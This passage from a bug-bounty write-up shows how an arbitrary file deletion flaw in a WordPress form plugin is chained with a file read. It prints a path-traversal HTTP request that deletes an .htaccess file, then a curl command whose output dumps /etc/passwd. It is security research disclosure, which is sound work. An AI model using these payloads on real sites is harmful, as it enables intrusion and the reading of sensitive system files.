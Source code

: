 #### Arbitrary File Read Bypass via Arbitrary File Deletion

Ah ha! We can **chain with the arbitrary file deletion vulnerability** to delete that `.htaccess` file, and then we can read the copied file!

Let's delete that file!!

```http
POST /wp-admin/admin-ajax.php?action=bitforms_delete_aform&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 106
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"id":"../../../../../../../../../../../../../var/www/html/wp-content/uploads/bitforms/uploads/.htaccess"}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822204337.png)

```shell
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-read-deletion)-[2024.08.22|20:43:00(HKT)]
└> curl http://localhost/wp-content/uploads/bitforms/uploads/1/1
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
[...]
```
